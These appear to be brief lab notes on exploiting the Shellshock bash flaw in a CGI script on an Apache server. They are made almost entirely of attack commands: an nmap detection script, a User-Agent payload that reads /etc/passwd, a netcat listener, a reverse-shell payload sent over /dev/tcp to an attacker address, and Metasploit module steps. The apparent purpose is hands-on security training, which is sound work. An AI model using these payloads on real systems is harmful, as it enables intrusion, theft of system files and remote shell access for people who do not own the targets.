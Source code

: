 #### Vulnerability analysis shellshock


#### Exploiting shellshocks
- nmap -sV 192.24.241.3 [confirm the apache server is running]
- visits the ip address in browser.
- look in source code look for cgi file
- nmap -sV 192.24.241.3 --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" [we can confirm the vulnerability]
- capture the request in burp
- () { :; }; echo; /bin/bash -c 'cat /etc/passwd' [ replace the user-agent with that command ]
- nc -nvlp 1234 [ start a listener in attacker machine ]
-  (){ :; }; echo; /bin/bash -c 'bash -i>&/dev/tcp/192.24.241.2/1234 0>&1' [replace the user-agent with that shell for reverse shell]
- a reverse shell got

#### metasploit
- service postgresql start
- msfconsole
- search shellshock 
- use exploit module 
- set everything required

